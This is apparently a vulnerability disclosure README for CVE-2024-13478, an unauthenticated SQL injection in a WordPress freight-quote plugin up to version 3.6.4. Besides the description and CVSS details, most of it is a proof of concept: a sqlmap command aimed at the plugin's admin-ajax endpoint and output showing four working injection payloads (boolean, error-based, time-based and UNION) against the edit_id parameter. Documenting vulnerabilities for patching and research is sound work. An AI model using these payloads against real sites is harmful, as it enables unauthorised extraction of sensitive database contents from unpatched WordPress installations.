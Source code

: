 # CVE-2024-13478
LTL Freight Quotes – TForce Edition <= 3.6.4 - Unauthenticated SQL Injection

# Description

The LTL Freight Quotes – TForce Edition plugin for WordPress is vulnerable to SQL Injection via the 'dropship_edit_id' and 'edit_id' parameters in all versions up to, and including, 3.6.4 due to insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query.  This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.

## Details

- **Type**: plugin
- **Slug**: ltl-freight-quotes-ups-edition
- **Affected Version**: 3.6.4
- **CVSS Score**: 7.5
- **CVSS Rating**: High
- **CVSS Vector**: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
- **CVE**: CVE-2024-13478
- **Status**: Active

POC
---

```
sqlmap.py -u 'http://kubernetes.docker.internal:8929/wp-admin/admin-ajax.php' --data='action=en_wd_edit_warehouse&edit_id=1&wp_nonce=13db5f2e7d' --level=2 --dbms='MySQL '

[*] starting @ 15:35:17 /2025-02-20/

[15:35:18] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: edit_id (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: action=en_wd_edit_warehouse&edit_id=1 AND 8084=8084&wp_nonce=13db5f2e7d

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: action=en_wd_edit_warehouse&edit_id=1 AND GTID_SUBSET(CONCAT(0x7170787171,(SELECT (ELT(3874=3874,1))),0x717a627171),3874)&wp_nonce=13db5f2e7d

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: action=en_wd_edit_warehouse&edit_id=1 AND (SELECT 8170 FROM (SELECT(SLEEP(5)))Gvfy)&wp_nonce=13db5f2e7d

    Type: UNION query
    Title: Generic UNION query (NULL) - 20 columns
    Payload: action=en_wd_edit_warehouse&edit_id=1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7170787171,0x6e57584a4f524f56504572467179796c6a6c6c527872646a73464444414144707067736542565243,0x717a627171),NULL,NULL,NULL,NULL,NULL-- -&wp_nonce=13db5f2e7d
---
[15:35:18] [INFO] testing MySQL
[15:35:18] [INFO] confirming MySQL
[15:35:18] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: PHP 8.2.21, Apache 2.4.59
back-end DBMS: MySQL >= 8.0.0

```
